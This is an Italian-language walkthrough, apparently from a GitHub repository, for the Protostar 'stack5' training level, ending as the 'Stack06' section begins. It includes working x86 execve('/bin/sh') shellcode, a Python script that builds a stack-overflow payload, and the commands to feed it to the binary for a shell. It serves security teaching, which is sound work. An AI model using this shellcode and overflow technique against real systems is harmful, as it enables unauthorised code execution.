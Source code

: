Una volta ottenuti questi dati occorre sottrarre all'indirizzo di *buffer*, il return address. In questo modo si ottiene il numero di byte necessario a provocare l'overflow desiderato. Dovrà quindi essere costruito un payload del tipo:
```text
shellcode + padding + buffer_address
```
In cui **shellcode + padding** devono avere una dimensione pari a quella necessaria per il buffer overflow, **buffer_address** invece avrà dimensione di 4byte. 

Lo shellcode è il seguente
```x86asm
xor %eax,%eax #azzeramento di eax
push %eax 
push $0x68732f2f #/bin/sh scritto in byte
push $0x6e69622f
mov %esp,%ebx #indirizzo del comando da eseguire
mov %eax,%ecx #azzeramento ecx
mov %eax,%edx #azzeramento edx
mov $0xb,%al #carica il valore della chiamata di sistema negli 8 bit meno significativi di eax
int $0x80 #chiamata di sistema execve()
xor %eax,%eax
inc %eax #eax = 1 
int $0x80 #chiamata di sistema exit() per uscire dal programma
```

Per caricare lo shellcode sullo stack occorre convertirlo in byte, creare il padding e settare il return address. Si usa il seguente script python per generare un file da dare poi in input all'eseguibile.
```py
#!/usr/bin/python
# Parametri da impostare
length = 76
ret = '\x00\x00\x00\x00'
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
padding = 'a' * (length - len(shellcode))
payload = shellcode + padding + ret
print payload
#print shellcode
```
Successivamente
```bash
python exploit.py > exploit.txt
(cat exploit.txt; cat) | /opt/protostar/bin/stack5
```
I due *cat* successivi servono a tenere aperta la shell che viene generata dato che il secondo comando *cat* da solo resta in attesa di caratteri da stdin e non chiude quindi il pipe con l'eseguibile.

## Stack06
La difficoltà di questo binario è dato dal fatto che non si può fare un overflow sul return address impostando come indirizzo di ritorno una cella di memoria appartenente allo stack. Per aggirare questa difesa quindi occorre fare un return ad una porzione di codice già presente nel binario.
